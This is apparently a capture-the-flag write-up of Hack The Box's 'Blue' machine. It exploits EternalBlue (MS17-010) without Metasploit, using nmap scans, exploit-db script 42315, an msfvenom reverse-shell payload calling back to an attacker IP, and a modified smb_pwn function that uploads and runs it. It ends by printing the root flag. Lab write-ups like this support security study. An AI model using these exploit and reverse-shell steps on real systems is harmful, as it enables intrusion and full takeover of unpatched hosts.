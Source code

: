 ```yaml
---
title: "Blue Walkthrough:Exploiting CVE-2017-0144"
date: 2024-10-08 09:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB]   
description: "Walkthrough of HTB's Blue machine without using Metasploit"
---
```


# Blue

*Blue, while possibly the simplest machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.*

### Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

### Recon

Started the recon with an Nmap scan:

```bash
sudo nmap -T4 -sS -n -Pn --disable-arp-ping --stats-every=5s -F 10.10.10.40
```

- **-T4**: Sets the timing template for faster scanning.
- **-sS**: Performs a TCP SYN scan.
- **-n**: Disables DNS resolution.
- **-Pn**: Skips host discovery (pinging).
- **-F**: Scans the top TCP ports.

The initial scan reveals several open ports, including:

- 135/tcp open  msrpc
- 139/tcp open  netbios-ssn
- 445/tcp open  microsoft-ds (Samba)
- Multiple high-numbered ports (49152-49157) open for Microsoft services.

Next, I performed a more detailed scan to identify the operating system and versions of the services:

```bash
sudo nmap -T4 -A -Pn -n --disable-arp-ping 10.10.10.40 --source-port 53 -p 135,139,445,49152,49153,49154,49155,49156,49157

sudo nmap -v --script vuln,exploit -p 135,139,445 10.10.10.40
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

This identified the target as **Windows 7 Professional 7601 Service Pack 1**, making it susceptible to the EternalBlue exploit (MS17-010).

### Exploitation:

MS17-010 is a critical vulnerability in SMBv1 (CVE-2017-0144). Exploiting it allows remote code execution with SYSTEM-level privileges.

#### Preparing the Exploit:

First, I copied the exploit script from the `exploitdb` directory to my working directory:

```bash
(kali㉿kali)-[~/Red_Team/HTB/Blue]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/42315.py ./4315.py
```

The exploit is written in Python 2.7, and when I tried to run it, syntax issues arose due to the differences between Python 2.7 and Python 3. To resolve this, I created a Python 2.7 virtual environment:

1. **Download pip** for Python 2.7:

    ```bash
    python2.7 get-pip.py
    ```

2. **Verify the pip version** and set up the virtual environment:

    ```bash
    > pip --version                  
    pip 20.3.4 from /home/kali/.local/lib/python2.7/site-packages/pip (python 2.7)
    > pip install virtualenv   
    > python2.7 -m virtualenv myenv
    ```

3. **Activate the virtual environment** and install the required dependencies, like `impacket`, which is essential for running the exploit smoothly.

#### Running the Exploit:

With the environment set up, I executed the modified script using Python 2.7:

```bash
──(myenv)─(kali㉿kali)-[~]
└─$ python Red_Team/HTB/Blue/4315.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80041f95e0
SESSION: 0xfffff8a009713aa0
FLINK: 0xfffff8a00a10a088
InParam: 0xfffff8a00a10415c
MID: 0x2103
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

The output indicated a successful exploitation process, leading to SYSTEM-level access on the target.

### Knowledge Share:

SMB servers use *named pipes* to communicate with various services for authentication:

- **Domain-joined SMB Servers** use the *Netlogon* service to communicate with the domain controller for authentication.
- **Standalone SMB Servers** interact with the local *SAM (Security Account Manager)* database via the `\samr` pipe to verify credentials.
- The **Local Security Authority (LSA)** manages security policies and access controls through its communication with the SMB server.

For testing purposes, running the command with random "username" and "password" can help in exploring these interactions during an exploit attempt.

### Custom Exploit:

For a deeper understanding, I modified the EternalBlue exploit script to upload a custom reverse shell and execute it:

1. **Creating the executable payload** using `msfvenom`:

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=8080 -f exe > Benign.exe
    ```

2. **Modifying the script** to transfer and execute the payload:

    ```python
    def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        print('Creating file C:\\Benign.exe on the target')
        smb_send_file(smbConn, '/home/kali/Red_Team/HTB/Blue/Benign.exe', 'C', '/Benign.exe')
        service_exec(conn, r'cmd /c C:\\Benign.exe')
    ```

3. **Running the script** gave me a reverse shell back to my machine, maintaining SYSTEM access.

### Post-Exploitation:

After successful exploitation, I had SYSTEM-level access:

```bash
C:\Windows\system32> whoami
nt authority\system
```

This means complete control over the machine, including access to any files. Retrieving the flag:

```bash
C:\Users\Administrator\Desktop> type root.txt
734ac76b26b651a6658354572badeb63
```

### Conclusion:

The Blue machine on Hack The Box is a great example of how a seemingly outdated vulnerability like EternalBlue can still pose a significant risk if left unpatched. Proper patch management and disabling legacy protocols like SMBv1 are critical for maintaining secure networks.

### References
- [Exploit-DB: MS17-010 EternalBlue Exploit](https://www.exploit-db.com/exploits/42315)
---

